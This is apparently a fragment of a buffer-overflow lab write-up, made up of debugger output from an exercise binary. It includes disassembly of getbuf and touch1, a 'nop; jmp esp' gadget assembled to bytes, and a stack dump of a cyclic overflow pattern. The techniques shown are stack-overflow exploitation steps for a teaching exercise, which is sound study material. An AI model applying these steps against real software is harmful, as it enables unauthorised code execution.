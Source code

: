 ~~~shell
gef➤  disas getbuf 
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:     sub    rsp,0x28
   0x00000000004017ac <+4>:     mov    rdi,rsp
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    eax,0x1
   0x00000000004017b9 <+17>:    add    rsp,0x28
   0x00000000004017bd <+21>:    ret    
End of assembler dump.
~~~

~~~shell
gef➤  b touch1
Breakpoint 3 at 0x4017c0: file visible.c, line 25.
gef➤  disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    rsp,0x8
   0x00000000004017c4 <+4>:     mov    DWORD PTR [rip+0x202d0e],0x1        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    edi,0x4030c5
   0x00000000004017d3 <+19>:    call   0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    edi,0x1
   0x00000000004017dd <+29>:    call   0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    edi,0x0
   0x00000000004017e7 <+39>:    call   0x400e40 <exit@plt>
End of assembler dump.
~~~

~~~shell
rasm2 -a x86 -b 32 "nop; jmp esp"
90ffe4
~~~

~~~shell
$rcx   : 0x94              
$rdx   : 0x000000006066e3  →  0x0000000000000000
$rsp   : 0x0000005561dc78  →  "AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQA"
$rbp   : 0x00000055685fe8  →  0x00000000402fa5  →  0x3a6968003a697168 ("hqi:"?)
$rsi   : 0x31              
$rdi   : 0x007ffff7fa9980  →  0x00000000fbad2288
$rip   : 0x000000004017b4  →  <getbuf+12> mov eax, 0x1
$r8    : 0xa               
$r9    : 0x7c              
$r10   : 0x000000004007af  →  "_IO_getc"
$r11   : 0x246             
$r12   : 0x2               
$r13   : 0x0               
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x0000005561dc78│+0x0000: "AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQA"   ← $rax, $rsp
0x0000005561dc80│+0x0008: "ADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQA"
0x0000005561dc88│+0x0010: "AAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQA"
0x0000005561dc90│+0x0018: "IAAJAAKAALAAMAANAAOAAPAAQA"
0x0000005561dc98│+0x0020: "ALAAMAANAAOAAPAAQA"
0x0000005561dca0│+0x0028: "AAOAAPAAQA"
0x0000005561dca8│+0x0030: 0x00000000004151 ("QA"?)
0x0000005561dcb0│+0x0038: 0x00000000401f24  →  <launch+112> cmp DWORD PTR [rip+0x2025bd], 0x0        # 0x6044e8 <is_checker>
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4017a8 <getbuf+0>       sub    rsp, 0x28
~~~
